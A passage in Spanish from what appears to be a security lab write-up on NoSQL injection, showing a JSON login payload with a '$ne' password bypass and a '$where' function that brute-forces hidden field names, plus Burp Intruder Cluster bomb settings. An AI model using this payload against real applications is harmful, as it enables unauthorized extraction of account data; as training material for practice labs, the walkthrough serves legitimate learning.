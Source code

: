 Vamos a `enviar` la `petición` al `Intruder` con este `payload`, una vez ahí vamos a `seleccionar` como tipo de ataque `Cluster bomb` y vamos a `marcar ambos campos`

```
{
  "username": "carlos",
  "password": { "$ne": "testing" },
  "$where": "function(){ if(Object.keys(this)[4].match('^.{0}a.*')) return 1; else return 0; }"
}
```

![](/assets/img/NoSQLI-Lab-4/image_24.png)

El primer `payload` va a ser de tipo `numérico` y va a ir desde el `0` al `10`, haciendo un total de `11` de `longitud`

![](/assets/img/NoSQLI-Lab-4/image_25.png)

Para el segundo `payload` vamos a utilizar todos los `caracteres imprimibles` de la librería `string` de `python`
